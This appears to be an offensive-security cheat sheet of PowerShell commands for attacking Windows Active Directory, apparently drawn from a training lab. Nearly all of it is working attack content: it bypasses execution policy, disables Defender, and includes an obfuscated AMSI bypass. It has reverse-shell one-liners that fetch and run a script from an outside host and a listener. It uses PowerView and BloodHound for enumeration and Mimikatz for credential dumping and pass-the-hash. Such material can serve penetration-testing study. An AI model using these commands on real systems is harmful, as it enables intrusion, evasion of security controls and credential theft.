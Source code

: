 # Privilege Escalation

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

# Active Directory

## Setup

Bypass Execution Policy
```powershell
powershell -ep bypass
```

Turn off AMSI 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

AMSI bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Rev shell
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

Listener
```powershell
powercat -l -v -p 443 -t 100
```
Run remote command
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-command -ScriptBlock {Invoke-Mimikatz} -Session $sess
Enter-PSSession $sess
```

Check language mode and app locker config
```powershell
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy files
```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

Download
```powershell
iex(iwr("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1"))
```

```cmd
runas /user:[Domain]\[user] cmd
```

## Enumeration

#### Bloodhound
```powershell
Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```



#### PowerView

[PowerView](https://github.com/lwierzbicki/PowerSploit/tree/master/Recon)

Get all the users
```powershell
Get-NetUser
Get-NetUser | select -ExpandProperty samaccountname
$SecPassword = ConvertTo-SecureString 'Welcome2015' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('PWNY\jar-jar.binks', $SecPassword)
Get-NetUser -Credential $Cred | Format-Table name, samaccountname, userprincipalname, description
Get-NetUser -Username student1
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
```

Get OU
```powershell
Get-NetOU
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
```

Get GPO
```powershell
Get-NetGPO
(Get-NetOU StudentMachines -FullData).gplink
Get-NetGPO -ADSpath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'
Get-NetGPO -GPOName "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"
Get-GPO -Guid [objectguid]
Find-GPOComputerAdmin - Computername dcorp-student1.dollarcorp.moneycorp.local
Find-GPOLocation -UserName student1 -Verbose
```

Get ACLs
```powershell
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs -Verbose
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs | Format-Table IdentityReference,ActiveDirectoryRights,AccessControlType
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "student"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"}
```

Get Domain Data
```powershell
Get-NetDomain
Get-NetDomain -Domain moneycorp.local
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."system access"
(Get-DomainPolicy -domain moneycorp.local)."system access"
Get-NetDomainController -Domain moneycorp.local
```

### Attack

#### Mimikatz
```powershell
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
Get AES keys
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
Inspect credentials vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
NTLM domain admin used to create a token and run powershell (over pass the hash)
```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```
